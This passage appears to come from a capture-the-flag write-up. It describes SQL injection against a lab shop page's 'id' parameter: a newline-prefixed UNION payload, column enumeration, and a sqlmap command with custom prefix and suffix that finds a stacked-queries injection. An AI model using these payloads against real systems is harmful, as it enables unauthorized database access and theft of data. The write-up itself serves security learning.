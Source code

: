 #### UNION Injection

I'll use UNION injection to read the database. I can start with
`id=%0A100'+union+select+1;--+-1`. This returns an empty page, which
probably represents some kind of SQL error. I expect this, as it would
only work if the queried table only have one column. I'll start checking
other lengths until I get to 8, where it returns:

![](/img/image-20240110102001914.png)

Comparing this to the page (and looking at the raw HTML), I can assert
that the products table probably has the following columns:

1.  Likely ID (not shown on page)
2.  Product Name
3.  Features paragraph
4.  Sale price
5.  Regular price
6.  Max number allowed to add to cart
7.  Image name
8.  unknown

I can enumerate the rest of the database, but there's not much
interesting in it.

#### sqlmap

All of this SQL injection can be automated using `sqlmap`. I'll need to
use the `--prefix` and `--suffix` parameters to add the leading newline
and the trailing digit, and it needs at least `--level 2` to find it:



    oxdf@hacky$ sqlmap -u "http://10.10.11.229/shop/?page=product&id=1" --prefix "%0A%0D'" --suffix="'-- -1" -p id --batch --level 2
    ...[snip]...
    GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 162 HTTP(s) requests:
    ---
    Parameter: id (GET)
        Type: stacked queries
        Title: MySQL >= 5.0.12 stacked queries (comment)
        Payload: page=product&id=1
    ';SELECT SLEEP(5)'-- -1
    ---
    [09:14:55] [INFO] the back-end DBMS is MySQL
    ...[snip]...



It is interesting that it finds a stacked queries attack, rather than
union injection. This is a blind technique and will run very slowly.

### Shell
